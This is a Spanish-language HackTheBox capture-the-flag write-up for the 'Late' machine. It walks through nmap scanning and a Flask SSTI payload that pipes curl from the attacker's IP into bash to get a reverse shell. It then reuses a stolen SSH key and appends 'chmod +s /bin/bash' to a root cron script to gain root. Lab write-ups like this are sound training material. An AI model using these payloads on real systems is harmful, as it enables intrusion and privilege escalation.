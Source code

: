 ```yaml
---
title: HackTheBox - Late
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'SSTI', 'Crontab Exploitation']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Late/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Late Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **SSTI, Crontab Exploitation**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Late/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Late/02-versions.png)

> Al investigar la página web encontraremos 1 dominio y 1 subdominio (**late.htb** e **images.late.htb**), los cuales agregamos al fichero /etc/hosts
{: .prompt-info }

c. La página web de **images.late.htb** ofrecen el servicio de transformar imágenes a texto y la parte más importante es que está realizado con Flask (Python). Siempre que tengamos cualquier sistema con esta tecnología debemos testear un SSTI

* Creamos una imagen con el siguiente payload

    ![](/assets/images/HTB/Easy/Late/03-ssti.png)

* Subimos la imagen al servicio y veremos el contenido del fichero que se nos descarga

    ![](/assets/images/HTB/Easy/Late/04-output.png)


d. Como vimos anteriormente la página web es vulnerable a un **SSTI**, ahora, nos entablaremos una reverse shell

* Payload: `{{ cycler.__init__.__globals__.os.popen('curl <tun0 IP>|bash').read() }}`

![](/assets/images/HTB/Easy/Late/05-reverse-shell.png)

### Escalada de Privilegios 💹

a. El usuario **svc_acc** tiene pares de claves id_rsa, copiamos la privada en nuestra máquina y nos conectaremos por el servicio SSH

```bash
❯ chmod 600 id_rsa
❯ ssh svc_acc@10.10.11.156 -i id_rsa
svc_acc@late:~$
```

b. Para enumerar posibles tareas cron, subimos el [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)

```bash
svc_acc@late:/dev/shm$ chmod +x pspy64 
svc_acc@late:/dev/shm$ ./pspy64

<SNIP>
2023/09/16 01:03:01 CMD: UID=0     PID=2205   | chown svc_acc:svc_acc /usr/local/sbin/ssh-alert.sh
```

* Vemos que se ejecutar un '/usr/local/sbin/ssh-alert.sh'. Ahora, nos volveremos a conectar por el servicio SSH para saber cual es el usuario que ejecuta esta tarea

    ![](/assets/images/HTB/Easy/Late/06-pspy.png)

* Como la tarea la ejecuta el usuario root, podemos inyectar un código para colocar el permiso SUID a la bash

d. Nos encontraremos con un 'traba' al momento de colocar el código

```bash
svc_acc@late:/dev/shm$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

> El fichero tiene el atributo 'append-only' lo que significa únicamente podemos añadir contenido.
{: .prompt-info }

* La forma de 'bypassear' esto es agregando el contenido al final del fichero

    ```bash
    svc_acc@late:/dev/shm$ echo 'chmod +s /bin/bash' >> /usr/local/sbin/ssh-alert.sh
    ```

* Como último paso, nos autenticamos por SSH (Debemos hacerlo rápido) y la bash ya tendrá el permiso **SUID**

    ```bash
    svc_acc@late:/dev/shm$ ls -la /bin/bash
    -rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
    svc_acc@late:/dev/shm$ bash -p
    bash-4.4# whoami
    root
    ```